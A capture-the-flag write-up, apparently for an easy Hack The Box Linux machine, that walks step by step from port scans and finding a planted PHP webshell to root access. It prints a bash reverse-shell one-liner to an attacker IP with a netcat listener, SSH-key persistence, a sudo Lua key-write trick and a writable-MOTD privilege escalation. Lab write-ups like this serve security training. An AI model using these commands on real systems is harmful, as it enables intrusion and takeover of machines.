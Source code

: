 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
**Tags:** `webshell`, `lua`, `luvit`, `motd`, `ssh`, `cron privesc`

---

## 📡 Recon

### Full TCP Port Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.181
```

### Targeted Service Detection

```bash
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.181
```

- **Ports Open**: 22 (SSH), 80 (HTTP)
- Apache/2.4.29, OpenSSH 7.6p1 → likely Ubuntu 18.04

---

## 🌐 [Web Enumeration](HTTP)

### Webpage Source

- Page shows “owned” message by Xh4H
- Comment: `<!--Some of the best web shells that you might need ;)-->`
- Google search → list of known PHP webshell names

### Create Wordlist of Common Webshells

```bash
vim php_shells.txt  # Add shell names like smevk.php, cmd.php, r57.php etc.
```

### Gobuster with Wordlist

```bash
gobuster dir -u http://10.10.10.181 -w php_shells.txt
```

✅ **Found**: `/smevk.php`

---

## 🐚 Shell as webadmin

### Webshell Access

- Login: `admin:admin` (from source)
- Use Reverse Shell payload:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
```

### Listener

```bash
nc -lvnp 443
```

🎯 Shell obtained as `webadmin`

---

## 🔐 Persist Access (Optional)

### Add SSH Key via Webshell

```bash
mkdir ~/.ssh
echo "your-ssh-pub-key" > ~/.ssh/authorized_keys
```

Then [SSH](SSH) in:

```bash
ssh webadmin@10.10.10.181 -i ~/keys/id_rsa
```

---

## 🧑‍💻 Privilege Escalation: webadmin → sysadmin

### Check for Sudo Rights

```bash
sudo -l
```

✅ `webadmin` can run `/home/sysadmin/luvit` as `sysadmin` without password

---

### Lua-based SSH Key Write Exploit

```lua
-- Save as /dev/shm/key.lua
authkeys = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
authkeys:write("ssh-ed25519 AAAA... your-key-here ... user@host\n")
authkeys:close()
```

Run it:

```bash
sudo -u sysadmin /home/sysadmin/luvit /dev/shm/key.lua
```

🎯 Now SSH as `sysadmin`:

```bash
ssh sysadmin@10.10.10.181 -i ~/keys/id_rsa_sysadmin
```

✅ Get `user.txt`

---

## 🧑‍🔧 Privilege Escalation: sysadmin → root

### MOTD Scripts Writable

```bash
ls -l /etc/update-motd.d/
```

✅ Writable by `sysadmin` group (e.g., 00-header)

---

### Add Root Key via MOTD

```bash
echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> /etc/update-motd.d/00-header
```

Immediately login again as any user to trigger script:

```bash
ssh webadmin@10.10.10.181
```

🎯 Now SSH as `root`:

```bash
ssh root@10.10.10.181 -i ~/keys/id_rsa_sysadmin
```

✅ Grab `root.txt`

---

## 🧩 Beyond Root

### Cron Discovery (via pspy or manually)

```bash
crontab -l
```

Shows:

```cron
* * * * * /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
* * * * * sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

- Scripts overwritten every 30 seconds from backup
- Acts as cleanup mechanism

### Enumeration Tips

- Group-writable scripts in MOTD folder = privesc vector
- LinPEAS / LinEnum with `-t` will detect this
